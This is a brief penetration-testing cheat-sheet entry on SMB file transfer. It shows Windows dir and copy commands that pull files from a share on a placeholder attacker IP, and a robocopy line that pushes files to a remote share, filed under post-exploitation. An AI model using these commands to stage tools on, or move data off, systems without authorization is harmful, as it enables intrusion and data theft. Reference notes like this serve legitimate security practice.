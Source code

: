 # SMB

## 01 - Usage

```
C:\> dir \\<attacker_IP>\<share_name>

C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xJ - System and Kernel Version/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

---
## References

- [Chris Titus Robocopy](https://www.christitus.com/robocopy)